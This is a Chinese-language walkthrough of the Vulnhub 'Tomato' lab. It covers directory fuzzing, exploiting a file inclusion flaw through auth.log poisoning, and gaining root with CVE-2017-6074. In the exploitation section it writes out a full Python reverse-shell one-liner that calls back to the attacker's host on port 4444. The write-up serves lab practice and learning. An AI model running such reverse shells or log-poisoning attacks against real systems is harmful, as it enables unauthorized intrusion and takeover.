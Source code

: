 ```yaml
---
title: Tomato
date: 2021-12-24 20:35:20
tags: Vulnhub
categories: 文件包含漏洞
---
```


## 信息收集
运行我们的bash脚本，发现目标系统开放了ftp和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/b2f1b07f20b74e8cbbf09d8aceb93286.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试是否可以匿名登录ftp，未果
![在这里插入图片描述](https://img-blog.csdnimg.cn/074a7cd93bf64ed3aa33a1e7ba57281e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们访问web服务，发现是一个番茄图片，查看源码也没什么发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/6fbb54145b634516a076f26d15d098ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们fuzz一下路径，发现了存在一个antibot_image路径

```bash
dirsearch -u "http://192.168.101.197/" -e * -x404,500,403 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa0487042a3d48909ab79d96a12532a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现存在一个info.php文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/a59aa7bf23b2400cb4fd41b01cea33d7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件的源码提示我们存在文件包含漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/39d170ef77ee482988bbfd4d37ecc20b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们验证漏洞确实是真实存在的
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6bee6c21fc2499999963c8682e6f3cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们尝试将一句话写进日志文件中，日志文件的路径为`/var/log/auth.log`，发现已被写入日志并成功执行我们的命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/8fc98d199a4845c1a5e8d72245c7b934.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf1f3a8f67a6457998b22f5bd225ccc2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查找python是否存在，若存在则可以反弹shell到我们本地的机子上。可以看到python是存在的，并且版本为3.5
![在这里插入图片描述](https://img-blog.csdnimg.cn/4d606cef990543d381d880d6a94f170c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将执行如下的payload添加到cmd参数后获得一个shell

```python
python3 -c 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.101.196",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8ac1207e853b4bfa8655671b22b4939d.png)
## 提权
我们将linpeas.sh脚本上传到靶机上，并执行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/23a8477f887a40c3b6df7f1df69d406b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个linux内核漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/e962cb6858c242bea4f04c0d8d28b3b1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个内核漏洞对应的漏洞编号为`CVE-2017-6074`，我们将其编译变上传到靶机上，执行即root
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d5db74c976140df8fd5b0d408768a02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/335e4f13aa7e4d8c9ebaf95cb4c8749c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
